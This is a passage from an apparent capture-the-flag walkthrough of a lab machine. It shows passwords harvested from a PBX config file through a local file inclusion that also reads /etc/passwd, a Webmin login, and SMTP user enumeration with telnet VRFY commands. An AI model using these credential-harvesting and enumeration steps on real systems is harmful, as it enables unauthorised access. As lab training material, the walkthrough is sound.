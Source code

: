 ![1533841404662](https://0xdfimages.gitlab.io/img/1533841404662.png)

I could read other files as well, but the POC suggested a config file for the
PBX, and it contains a bunch of potential passwords in there to grab:

  * amp109
  * jEhdIekWmdjE
  * amp111
  * passw0rd

### Webmin - TCP 10000

On port 10000 there’s a Webmin login:

![image-20210218143204504](https://0xdfimages.gitlab.io/img/image-20210218143204504.png)

[Webmin](https://www.webmin.com/) is a web interface for managing Unix
systems. I guess some basic passwords like root / root, but no success. I’ll
try the passwords from the LFI in a later section.

### SMTP - TCP 25

With SMTP, I can check user accounts. I’ll cheat a bit, since I have the LFI
and can read `/etc/passwd` to generate a list of users from it:

    
    
    root@kali$ cat usernames_from_passwd 
    sync
    shutdown
    halt
    news
    mysql
    cyrus
    asterisk
    spamfilter
    fanis
    

I can use `telnet` to connect (I’ll make the stuff I type with `<--`):

    
    
    root@kali$ telnet 10.10.10.7 25
    Trying 10.10.10.7...
    Connected to 10.10.10.7.
    Escape character is '^]'.
    220 beep.localdomain ESMTP Postfix
    EHLO 0xdf   <-- doesn't matter what's after EHLO
    250-beep.localdomain
    250-PIPELINING
    250-SIZE 10240000
    250-VRFY
    250-ETRN
    250-ENHANCEDSTATUSCODES
    250-8BITMIME
    250 DSN
    VRFY spamfilter@localhost  <-- ask to verify this account
    252 2.0.0 spamfilter@localhost
    VRFY 0xdf@localhost        <-- this request should fail
    550 5.1.1 <0xdf@localhost>: Recipient address rejected: User unknown in local recipient table
    VRFY fanis                 <-- don't need the localhost either
    252 2.0.0 fanis
    VRFY cyrus
    252 2.0.0 cyrus
    